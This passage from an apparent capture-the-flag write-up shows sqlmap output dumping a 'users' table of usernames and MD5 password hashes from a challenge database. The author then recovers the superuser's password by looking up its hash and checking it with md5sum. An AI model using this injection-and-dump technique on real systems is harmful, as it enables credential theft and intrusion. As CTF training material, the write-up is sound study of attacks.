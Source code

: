 ```console
[19:35:21] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[19:35:21] [INFO] fetching current database
[19:35:21] [INFO] fetching columns for table 'users' in database 'cybertank'
[19:35:21] [INFO] fetching entries for table 'users' in database 'cybertank'
[19:35:21] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] n
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: cybertank
Table: users
[3 entries]
+----+-----------+----------------------------------+--------------+
| id | username  | password                         | access_level |
+----+-----------+----------------------------------+--------------+
| 1  | superuser | 79839a6b78cf257a31d976cd8a381760 | 1            |
| 2  | admin     | 21232f297a57a5a743894a0e4a801fc3 | 2            |
| 3  | guest     | 084e0343a0486ff05530df6c705c8bb4 | 5            |
+----+-----------+----------------------------------+--------------+

[19:35:32] [INFO] table 'cybertank.users' dumped to CSV file '/root/.sqlmap/output/database-cybertank-tst.cj6jw4xocthe.eu-central-1.rds.amazonaws.com/dump/cybertank/users.csv'
[19:35:32] [INFO] connection to mysql server database-cybertank-tst.cj6jw4xocthe.eu-central-1.rds.amazonaws.com:3306 closed

[*] shutting down at 19:35:32

```

If we search Google for the superuser's password hash, we find that it's the MD5 of `cybertrix`:

```console
root@kali:/media/sf_CTFs/hackazon/CyberTank_Website# echo -n cybertrix | md5sum
79839a6b78cf257a31d976cd8a381760  -
```